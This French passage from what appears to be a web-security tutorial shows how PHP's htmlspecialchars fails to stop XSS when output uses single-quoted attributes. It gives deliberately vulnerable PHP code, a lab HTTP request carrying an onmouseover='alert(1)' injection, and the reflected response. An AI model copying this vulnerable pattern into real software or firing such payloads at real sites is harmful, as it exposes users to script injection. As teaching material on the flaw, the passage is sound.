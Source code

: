 Protégeant ainsi l'application :&#x20;

![](<../../../.gitbook/assets/image (27) (3).png>)

#### Cas n°2

Cet exemple est sensiblement le même, mais l'ordre d'utilisation des caractères `"` et `'` au sein du code PHP a été ici modifié :&#x20;

```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><?php  echo "<input type='text' name='safeHTML' value='" . htmlspecialchars($_GET["param"]) . "'>"; ?></p>
  </body>
</html>
```

```http
GET /minipoc/htmlspecialchars/?param=whatever%27%20onmouseover=%27alert(1) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><input type='text' name='safeHTML' value='whatever' onmouseover='alert(1)'></p>
  </body>
</html>
```

Cette fois, l'application reste vulnérable :&#x20;
